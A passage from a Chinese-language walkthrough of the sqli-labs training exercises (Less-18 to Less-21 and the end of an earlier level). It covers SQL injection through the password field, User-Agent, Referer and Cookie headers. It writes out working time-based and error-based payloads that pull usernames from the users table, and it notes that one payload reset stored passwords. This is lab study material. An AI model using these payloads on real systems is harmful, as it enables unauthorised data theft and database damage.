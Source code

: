这一关注入时不能对users表进行查询，不然会报`You can't specify target table 'users' for update in FROM clause`错误，原因是不能在同一语句中先select再update

所以这个语句会报错`uname=admin&passwd=a' and if(mid((select username from users where id=1),1,1)='D',sleep(5),1)#&submit=Submit`

**而且我发现提交payload上去本地服务器就挂掉了，且user表中password列都被修改为0，记下这个坑。而且这里的问题会影响后面的请求头注入，US，cookie之类的无法echo到页面，需要初始化数据库**

采用报错注入

`uname=admin&passwd=11'and(select 1 from(select count(*),concat((select (select (select concat(0x25,(select username from users where id=1),0x25))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)#&submit=Submit`

***

**Less-18**

![](https://upload-images.jianshu.io/upload_images/11356161-cfa4774f9ad1c037.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

进入页面看见显示了IP ADDR，知需要http header注入，使用BurpSuite修改请求头

使用extractvalue函数进行报错注入，针对UA进行注入，按理修改x-forwarder-for也可以注入，但这一关作者好像只希望通过UA注入

`'and(select 1 from(select count(*),concat((select (select (select concat(0x25,(select username from users where id=1),0x25))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and '1'='1`

![](https://upload-images.jianshu.io/upload_images/11356161-97b1408fffcebee8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

***

**Less-19**

这一关修改referer，说到referer，据说当时修订http协议的那人拼错了单词，然后就将错就错一直拼成referer....

`'and(select 1 from(select count(*),concat((select (select (select concat(0x25,(select username from users where id=1),0x25))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and '1'='1``

***

**Less-20**

看页面标题为Cookie注入

Burp修改Cookie为`uname=admin'and(select 1 from(select count(*),concat((select (select (select concat(0x25,(select username from users where id=1),0x25))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)#`

***

**Less-21**

这关对payload进行了b64编码，且闭合为('$uname')

`uname=admin'and(select 1 from(select count(*),concat((select (select (select concat(0x25,(select username from users where id=1),0x25))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)#`
